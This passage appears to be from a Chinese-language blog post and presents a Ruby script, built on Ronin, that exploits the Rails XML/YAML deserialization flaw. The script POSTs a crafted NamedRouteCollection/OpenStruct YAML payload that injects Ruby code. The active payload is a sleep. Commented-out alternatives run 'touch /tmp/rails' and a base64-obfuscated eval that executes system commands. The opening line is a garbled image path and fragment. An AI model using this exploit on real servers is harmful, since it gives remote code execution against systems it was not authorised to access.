 (后来大家发现---||||||||||| !ruby/struct 可以达到与 OpenStruct 类似的功效，有兴趣的童鞋可以研究下)

测试代码如下：

```
require 'ronin/network/http'
require 'ronin/ui/output'
require 'yaml'

include Ronin::Network::HTTP
include Ronin::UI::Output::Helpers

url   = ARGV[0]

# xml = %{
# <?xml version="1.0" encoding="UTF-8"?>
# <bingo type='yaml'>
# --- !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
# 'test; eval(%[Y29kZSA9ICdjM2x6ZEdWdEtDZGxZMmh2SUNJeE1URWlJRDRnTDNSdGNDOW1kV05yWm5WamF5Y3AnLnVucGFjaygibTAiKS5maXJzdAppZiBSVUJZX1BMQVRGT1JNID1+IC9tc3dpbnxtaW5nd3x3aW4zMi8KaW5wID0gSU8ucG9wZW4oInJ1YnkiLCAid2IiKSByZXNjdWUgbmlsCmlmIGlucAppbnAud3JpdGUoY29kZSkKaW5wLmNsb3NlCmVuZAplbHNlCmlmICEgUHJvY2Vzcy5mb3JrKCkKZXZhbChjb2RlKSByZXNjdWUgbmlsCmVuZAplbmQ=].unpack(%[m0])[0]);' :
#  !ruby/object:OpenStruct
#   table:
#    :defaults: {}
# </bingo>
# }.strip

# xml = %{
# <?xml version="1.0" encoding="UTF-8"?>
# <bingo type='yaml'>
# --- !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
# 'test; system("touch /tmp/rails");' :
#  !ruby/object:OpenStruct
#   table:
#    :defaults: {}
# </bingo>
# }.strip

xml = %{
<?xml version="1.0" encoding="UTF-8"?>
<bingo type='yaml'>
--- !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
'test; sleep(10);' :
 !ruby/object:OpenStruct
  table:
   :defaults: {}
</bingo>
}.strip

response = http_post(
  :url       => url,
  :headers   => {
    :content_type           => 'text/xml',
    :\x_http_method_override => 'post'
  },
  :body      => xml
)

print_debug "Received #{response.code} response"

puts response.code
case response.code
when '200' then print_info  response.body + " ok"
when '404' then print_error "Not found"
```